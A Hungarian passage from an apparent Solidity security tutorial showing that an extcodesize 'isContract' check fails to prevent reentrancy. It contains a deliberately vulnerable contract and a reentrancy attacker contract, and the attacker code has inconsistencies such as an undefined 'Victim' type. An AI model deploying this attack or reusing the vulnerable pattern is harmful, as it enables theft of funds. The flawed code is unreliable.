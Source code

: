 Fontolóra lehet venni az újbóli belépés kezelését azzal, hogy egyszerűen megakadályozzuk az okosszerződések interakcióját a kóddal. A stackoverflow-n az alábbi kód részletet lehet megtalálni rengeteg pozitív szavazattal:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Értelmesnek tűnik: a szerződésnek van kódja, ha a hívónak van kódja, akkor nem engedi letétet elhelyezni. Adjuk hozzá ezt:

```solidity
// EZ A SZERZŐDÉS SZÁNDÉKOSAN SÉRÜLÉKENY, NE MÁSOLD LE
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- ÚJ SOR
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Ebben az esetben ahhoz, hogy ETH letétet tudj elhelyezni, az címeden nem szabad okosszerződés kódnak lennie. Azonban ezt könnyen meg lehet kerülni a következő Attacker szerződéssel:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- Új sor
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
